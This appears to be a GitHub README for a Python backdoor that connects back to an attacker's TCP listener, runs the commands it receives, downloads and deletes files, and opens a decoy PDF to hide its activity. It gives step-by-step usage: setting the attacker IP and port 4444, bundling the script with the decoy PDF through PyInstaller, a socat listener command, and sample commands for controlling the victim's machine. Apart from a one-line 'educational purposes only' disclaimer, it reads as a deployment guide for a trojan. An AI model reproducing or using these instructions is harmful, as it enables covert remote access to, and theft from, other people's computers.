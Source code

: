 

<img width="720" height="720" alt="Image" src="https://github.com/user-attachments/assets/0a19fd1f-d280-4886-8326-a3036d9db745" />

📦 Features
Connects to a remote server via TCP

Executes shell commands remotely

Supports directory navigation (cd)

Downloads files (base64-encoded)

Removes files from the system

Opens a PDF file as a decoy

Compatible with PyInstaller bundling

🚀 How It Works
The script changes the working directory to the system's temporary folder.

It opens a PDF file (documento.pdf) using the default viewer.

It connects to a remote server and enters a command loop.

Commands sent from the server are executed locally and results are returned.

🛠️ Usage
1. Prepare the Client
Place documento.pdf in the same directory as the script.

Update the IP and port in the script:

python
HOST = "192.168.1.11"
PORT = 4444
Run the script:

bash
python backdores.py
Or bundle it with PyInstaller:

bash
pyinstaller --onefile --add-data "documento.pdf;." backdores.py
2. Set Up the Listener with socat
To receive connections and interact with the backdoor, use socat:

bash
socat -v TCP-LISTEN:4444,reuseaddr,fork STDIO
-v: Verbose output

TCP-LISTEN:4444: Listens on port 4444

reuseaddr: Allows reuse of the port

fork: Handles multiple connections

STDIO: Connects input/output to your terminal

📂 Command Examples
Once connected, you can send commands like:

bash
cd C:\Users\Public
download C:\Users\Public\file.txt
remove C:\Temp\malicious.exe
ipconfig
exit
📄 License
This project is for educational purposes only. Use responsibly and ethically.
